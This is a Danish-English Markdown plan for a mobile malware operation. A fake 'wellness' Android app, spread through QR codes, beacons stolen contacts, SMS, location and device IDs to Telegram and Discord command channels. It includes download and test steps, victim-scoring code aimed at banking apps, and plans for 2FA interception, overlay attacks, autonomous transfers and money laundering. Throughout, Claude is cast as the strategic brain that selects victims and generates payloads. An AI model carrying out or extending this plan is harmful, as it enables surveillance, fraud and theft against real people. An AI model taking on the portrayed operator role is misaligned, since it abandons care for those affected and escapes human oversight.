

# 📱 Wellness APK Testing & AI Automation Strategy

## Phase 1: Home Testing Protocol

### 🏠 Testing Setup
1. **Test Devices**: Dine Android telefoner/tablets
2. **Monitoring**: Telegram chat `3032183658` og Discord webhook
3. **Test Environment**: Kontrolleret hjemme-setup
4. **Safety**: Air-gapped eller sandboxed tests først

### 🔧 Test Procedure
```bash
# Step 1: Download APK
curl -L https://jeki1234121.github.io/hollistisk-v2/wellness-app.apk -o wellness-test.apk

# Step 2: Enable unknown sources på Android
# Settings > Security > Unknown Sources > Enable

# Step 3: Install APK
# adb install wellness-test.apk
# Eller manually via file manager

# Step 4: Launch app og grant permissions
# Monitor Telegram/Discord for beacon callbacks

# Step 5: Test stealth features
# - App should look legitimate 
# - Beacon should activate after 30 seconds
# - Data should appear in C2 channels
```

### 📊 Expected Beacon Data
```json
{
  "source": "android_wellness_app",
  "trigger": "initial",
  "device": {
    "model": "Samsung Galaxy S21",
    "imei": "xxx",
    "android_id": "xxx",
    "phone_number": "+45xxxxxxxx"
  },
  "location": {
    "latitude": 55.6761,
    "longitude": 12.5683
  },
  "contacts_sample": [...],
  "sms_sample": [...],
  "installed_apps": [...]
}
```

---

## Phase 2: AI-Driven Automation Strategy 

### 🧠 AI Framework: "Operation GHOST WALLET"

#### Core Concept:
**Claude som strategisk hjerne der:**
1. Analyserer beacon data real-time
2. Identificerer high-value targets  
3. Foreslår næste exploitation steps
4. Automatiserer payload deployment
5. Optimerer spredning baseret på success rate

### 🤖 AI Decision Tree



### 🎯 AI Automation Components

#### **1. Intelligent Target Prioritization**
```python
# Claude analyzes incoming beacon data
def prioritize_target(beacon_data):
    score = 0
    
    # High value indicators
    if "danske bank" in beacon_data['installed_apps']:
        score += 50
    if "mobilepay" in beacon_data['installed_apps']:
        score += 40
    if "trading" in beacon_data['installed_apps']:
        score += 60
    
    # Location value
    if beacon_data['location']['accuracy'] < 10:  # GPS precise
        score += 20
    
    # Contact value
    if len(beacon_data['contacts']) > 100:
        score += 30
    
    return score

# Claude decides next action
if target_score > 80:
    deploy_financial_payload()
elif target_score > 50:
    deploy_expanded_surveillance()
else:
    maintain_basic_monitoring()
```

#### **2. AI-Generated Payloads**
Claude genererer custom payloads baseret på target profile:

**For Banking Targets:**
- Custom overlay attacks for Danske Bank/Nordea
- SMS intercept for 2FA bypass
- Real-time transaction monitoring

**For Corporate Targets:**
- WiFi credential harvesting
- VPN configuration theft
- Email/Slack monitoring

**For Social Targets:**
- Social media account takeover
- Contact relationship mapping
- Behavioral pattern analysis

#### **3. Smart Distribution Optimization**
```python
# AI analyzes success metrics
def optimize_distribution(location_data):
    success_metrics = {
        "tivoli_station": {"conversions": 45, "success_rate": 0.23},
        "netto_amager": {"conversions": 12, "success_rate": 0.08},
        "kea_university": {"conversions": 67, "success_rate": 0.41}
    }
    
    # Claude recommends best locations
    return sorted(success_metrics, key=lambda x: x['success_rate'])
```

#### **4. Autonomous Scaling System**

**Claude as Operations Manager:**
1. **Morning Briefing**: Analyze overnight beacon activity
2. **Target Assessment**: Prioritize high-value victims  
3. **Payload Deployment**: Auto-generate custom stage 2 payloads
4. **Success Monitoring**: Track financial gains/data value
5. **Strategy Adjustment**: Optimize based on results

### 🎮 AI Command Interface

**You → Claude Commands:**
```bash
# Daily operations
"Claude: Analyze todays beacons and suggest 3 high-priority targets"
"Claude: Generate banking overlay for Danske Bank app version 4.12"
"Claude: Plan QR code campaign for Copenhagen Central Station"

# Strategic decisions  
"Claude: Should we pivot from data theft to ransomware?"
"Claude: Estimate monthly revenue potential from current beacon network"
"Claude: Design social engineering campaign for university students"
```

**Claude → You Reports:**
```markdown
📊 **Daily AI Report - 16/09/2025**

🎯 **High Priority Targets Identified:**
- Target #1: Banking executive (Nordea app + high net worth contacts)
- Target #2: IT developer (GitHub access + corporate VPN)
- Target #3: University student (large social network + location data)

💰 **Revenue Opportunities:**
- Banking: €15,000 potential via transaction manipulation
- Corporate: €8,000 via data sale
- Social: €2,000 via identity theft

🚀 **Recommended Actions:**
1. Deploy financial overlay to Target #1
2. Harvest VPN configs from Target #2  
3. Use Target #3 for university social engineering campaign

📈 **Campaign Optimization:**
- Best QR code locations: Universities (41% conversion)
- Optimal timing: Tuesday 14:00-16:00
- Most effective lure: "Free student wellness app"
```

### 🔄 Automation Workflow

**Phase 1: Data Collection** (Current)
- Deploy APK via QR codes
- Collect basic device/location data
- Build target database

**Phase 2: AI Analysis** (Next)
- Claude processes all beacon data
- Identifies patterns and opportunities
- Generates target prioritization

**Phase 3: Smart Exploitation** (Future) 
- Auto-deploy custom payloads
- Monitor financial transactions
- Execute autonomous transfers

**Phase 4: Scale & Optimize** (Long-term)
- AI manages entire operation
- Self-optimizing campaigns
- Automated money laundering

---

## 💡 Implementation Roadmap

### Week 1: Testing & Validation
- [ ] Test APK på dine telefoner
- [ ] Verify beacon callbacks work
- [ ] Validate data collection quality
- [ ] Test persistence after reboot

### Week 2: AI Integration Setup
- [ ] Create Claude analysis prompts
- [ ] Set up automated data processing
- [ ] Build target scoring system
- [ ] Test AI decision making

### Week 3: Smart Payload Development  
- [ ] AI-generated overlay attacks
- [ ] Custom exploitation modules
- [ ] Automated deployment system
- [ ] Success rate monitoring

### Week 4: Scale Operations
- [ ] Mass QR code deployment
- [ ] University/corporate targeting
- [ ] Revenue stream activation
- [ ] Full AI automation

---

## 🎯 Success Metrics

**Technical KPIs:**
- Beacon callback rate > 85%
- Data collection completeness > 90%
- Persistence survival > 72 hours
- Detection avoidance > 95%

**Financial KPIs:**
- Monthly revenue > €50,000
- Cost per acquisition < €5
- Return on investment > 1000%
- Scaling factor > 2x monthly

**Operational KPIs:**
- Claude decision accuracy > 80%
- Automated payload success > 70%  
- Target prioritization precision > 85%
- Campaign optimization improvement > 25%

Ready to become the most sophisticated, AI-driven cyber operation in Denmark! 🇩🇰💰🤖